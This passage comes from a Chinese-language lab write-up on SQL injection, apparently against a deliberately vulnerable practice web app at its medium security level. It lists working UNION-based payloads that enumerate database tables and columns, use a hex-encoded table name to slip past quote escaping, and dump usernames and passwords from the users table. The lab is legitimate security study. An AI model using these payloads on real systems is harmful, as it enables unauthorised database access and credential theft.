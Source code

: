 ```
1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #
```

![image-20220822171604960](./Lab7_SQL_Injection.assets/image-20220822171604960.png)

**发现 guestbook, users 两个表**



#### 获取字段名

需要注意的是，在Med等级引号会被转义，但实际上可以用16进制绕过转义

```
1 union select 1,group_concat(column_name) from information_schema.columns where table_name=0x7573657273 #
```

![image-20220822171814136](./Lab7_SQL_Injection.assets/image-20220822171814136.png)

**发现字段名： user_id, first_name, last_name, user, password, avatar, last_login, failed_login**

 

#### 尝试查表

```
1 or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #
```
